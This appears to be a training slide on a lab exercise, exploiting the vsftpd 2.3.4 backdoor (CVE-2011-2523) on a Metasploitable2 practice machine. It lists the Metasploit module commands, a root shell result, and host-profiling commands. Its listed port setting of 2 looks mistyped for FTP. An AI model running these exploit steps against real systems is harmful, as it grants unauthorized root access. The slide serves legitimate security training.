

# Recon Ops: Exploitation and Host Profiling
Objective: Leverage service enumeration results to gain access and profile the compromised system.
In ths phase I Exploited vsftpd 2.3.4
Spawned a root shell on Metasploitable2
Verified target details (uname -a, ifconfig, whoami)
Phase 1 — Exploitation
Target: 192.168.**.** (Metasploitable2)
Service: FTP (vsftpd 2.3.4)
Vulnerability: Embedded backdoor (CVE-2011-2523)
Exploit Used: msf6 > use exploit/unix/ftp/vsftpd_234_backdoor | set RHOSTS 192.168.**.** | set RPORT 2 | set VERBOSE true | run
Result: Root shell session established | UID: uid=0(root) gid=0(root)